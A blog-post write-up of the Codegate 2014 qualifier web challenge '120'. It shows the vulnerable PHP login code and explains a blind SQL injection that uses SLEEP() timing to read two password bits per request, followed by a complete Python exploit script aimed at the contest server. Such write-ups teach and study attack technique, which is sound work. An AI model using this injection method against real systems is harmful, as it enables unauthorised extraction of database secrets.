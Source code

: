 ```yaml
---
layout: post
title: "Codegate 2014 Quals: 120"
date: 2014-02-26 06:51:10 +0000
permalink: /2014/02/26/codegate-2014-quals-120/
category: Security
tags:
  - CTF
  - Security
  - Shadow Cats
---
```

From Codegate 2014 quals comes "120".  Provided is a web interface with a single text box and a link to the source, reproduced below:

    #!php
    <?php
    session_start();
    
    $link = @mysql_connect('localhost', '', '');
    @mysql_select_db('', $link);
    
    function RandomString()
    {
      $filename = "smash.txt";
      $f = fopen($filename, "r");
      $len = filesize($filename);
      $contents = fread($f, $len);
      $randstring = '';
      while( strlen($randstring)<30 ){
        $t = $contents[rand(0, $len-1)];
        if(ctype_lower($t)){
        $randstring .= $t;
        }
      }
      return $randstring;
    }
    
    $max_times = 120;
    
    if ($_SESSION['cnt'] > $max_times){
      unset($_SESSION['cnt']);
    }
    
    if ( !isset($_SESSION['cnt'])){
      $_SESSION['cnt']=0;
      $_SESSION['password']=RandomString();
    
      $query = "delete from rms_120_pw where ip='$_SERVER[REMOTE_ADDR]'";
      @mysql_query($query);
    
      $query = "insert into rms_120_pw values('$_SERVER[REMOTE_ADDR]', ".
          "'$_SESSION[password]')";
      @mysql_query($query);
    }
    $left_count = $max_times-$_SESSION['cnt'];
    $_SESSION['cnt']++;
    
    if ( $_POST['password'] ){
      
      if (eregi("replace|load|information|union|select|from|where|" .
        "limit|offset|order|by|ip|\.|#|-|/|\*",$_POST['password'])){
        @mysql_close($link);
        exit("Wrong access");
      }
    
      $query = "select * from rms_120_pw where ".
        "(ip='$_SERVER[REMOTE_ADDR]') and " .
        "(password='$_POST[password]')";
      $q = @mysql_query($query);
      $res = @mysql_fetch_array($q);
      if($res['ip']==$_SERVER['REMOTE_ADDR']){
        @mysql_close($link);
        exit("True");
      }
      else{
        @mysql_close($link);
        exit("False");
      }
    }
    
    @mysql_close($link);
    ?>
    
    <head>
    <link rel="stylesheet" type="text/css" href="black.css">
    </head>
    
    <form method=post action=index.php>
      <h1> <?= $left_count ?> times left </h1>
      <div class="inset">
      <p>
        <label for="password">PASSWORD</label>
        <input type="password" name="password" id="password" >
      </p>
      </div>
      <p class="p-container">
        <span onclick=location.href="auth.php"> Auth </span>
        <input type="submit" value="Check">
      </p>
    </form>

The TL;DR of this code is that it uses your PHP session to store a 30 character lowercase letter token, and a counter of how many tries you've made against it.  You're given 120 total tries, then a new code will be generated, meaning any data you've been able to glean is useless.  For what it's worth, not all letters are equally likely -- the source of the data is Aleph One's "Smashing the Stack for Fun and Profit."  The code contains a blacklist to protect against certain types of SQL injection, but certainly doesn't cover all SQL injection possibilities.

So let's do some math.  Clearly, trying all possible passwords is out of the question at 26<sup>30</sup> possibilities.  With the SQL injection, we could try each character separately, using SUBSTR, but that still leaves us with 26*30 (780) possibilities, well more than the 120 we have to work with.  What about probabalistically trying the letters in the order of their frequency in the source document.  It turns out the letter distribution still requires ~8 tries per letter, meaning we can only get ~13 letters in our 120 tries, or would need 240 tries for the whole passphrase.

Let's consider that our character set is all lower case letters -- how much possible entropy is there?  Well, only the lowest 5 bits vary among lower case ASCII letters.  So, if we do a bitwise test, we only need 5*30 = 150 tests, but 150 is still too many.  If only we could test 2 bits at a time, then we'd only need (ideally) 75 tries.  How can we do that when the only signal we get back is a True/False value?  Well, we must consider side channels -- such as timing.  Merely measuring the timing of 2 bit comparisons is not significant enough to cover for network/server variance, but if we could conditionally introduce additional latency, we could use that as a signal.  Fortunately, SQL offers us a <a href='https://dev.mysql.com/doc/refman/8.0/en/miscellaneous-functions.html#function_sleep'><code>sleep()</code></a> function that we can use to introduce this latency and help us take measurements, but how to introduce it conditionally?

Note that the <code>sleep()</code> function returns a false-equivalent value when it completes.  Consider the statement <code>((A AND SLEEP(3)) OR B)</code>.  This is the truth table for the statement:

<table>
  <tr><th>A</th><th>B</th><th>Time</th><th>Output</th></tr>
  <tr><td>F</td><td>F</td><td>&lt;3 s</td><td>F</td></tr>
  <tr><td>T</td><td>F</td><td>&gt;3 s</td><td>F</td></tr>
  <tr><td>F</td><td>T</td><td>&lt;3 s</td><td>T</td></tr>
  <tr><td>T</td><td>T</td><td>&gt;3 s</td><td>T</td></tr>
</table>

As can be seen, the value of <code>A</code> controls the timing, and the value of <code>B</code> controls the output.  To read a single bit, we can use a construct like <code>ASCII(SUBSTR(password, N, 1)) &amp; 1 &lt;&lt; p</code>.  This checks if the p-th bit in the N-th byte is set.  Collectively, this gives us the ability to read 2 bits with a single request.  To break up the bits we need to read, it's most straightforward to read 1 bit by itself, then 2 pairs of 2 bits from each character.  Though suboptimal, it makes implementation straightforward, and still only requires 3 requests per byte, or 90 requests total.

Putting it all together, we get the following code.

    #!python
    import urllib
    import urllib2
    import cookielib
    import sys
    import time
    
    cj = cookielib.CookieJar()
    opener = urllib2.build_opener(urllib2.HTTPCookieProcessor(cj))
    
    cookies_printed = False
    
    def inject(pw):
      global cookies_printed
      data = urllib.urlencode({'password': pw})
      req = opener.open(
          'http://58.229.183.24/5a520b6b783866fd93f9dcdaf753af08/'
          'index.php', data)
      if not cookies_printed:
        for c in cj:
          print c
        cookies_printed = True
      return req.read().strip() == 'True'
    
    def stdinject(cond):
      return inject("' OR %s OR 'x'='" % cond)
    
    def indexmatch(pos, val):
      # Convert 0-indexed to 1-indexed
      substr = 'SUBSTRING(password, %d, 1)' % (pos+1)
      return stdinject(substr + ("='%s'" % val))
    
    def twobitchar(pos):
      bits = [0]*5
      substr = 'SUBSTRING(password, %d, 1)' % (pos+1)
      # test top most bit
      if stdinject('ASCII(%s) & %d' % (substr, 1 << 4)):
        bits[4] = 1
    
      def twobittest(lower):
        # (bit(1) and sleep(3)) or bit(2)
        # time indicate bit(1)
        # truth indicates bit(2)
        sleep_time = 3
        start_time = time.time()
        ascii_str = 'ASCII(%s)' % substr
        if stdinject('((%s & %d AND SLEEP(%d)) OR %s & %d)' % (
          ascii_str, 1 << (lower+1), sleep_time, ascii_str, 1 << lower)):
          bits[lower] = 1
        stop_time = time.time()
        if (stop_time - start_time) > sleep_time:
          bits[lower+1] = 1
    
      # test next 2 bits
      twobittest(2)
      # test last 2 bits
      twobittest(0)
    
      # reassemble bits
      return chr(int('0b11' + ''.join('%d' % b for b in reversed(bits)),2))
    
    def runtwobit():
      passwd = ''
      for c in xrange(30):
        passwd += twobitchar(c)
        print '[%d] %s' % (c, passwd[-1])
      if inject(passwd):
        print passwd
      else:
        print 'Validation failed!'
    
    runtwobit()

Note the need for special treatment for the HTTP requests -- since PHP sessions are in use, we need to provide a CookieJar and output the cookie value so we can use both the session and the password to exchange for our flag and get our points.
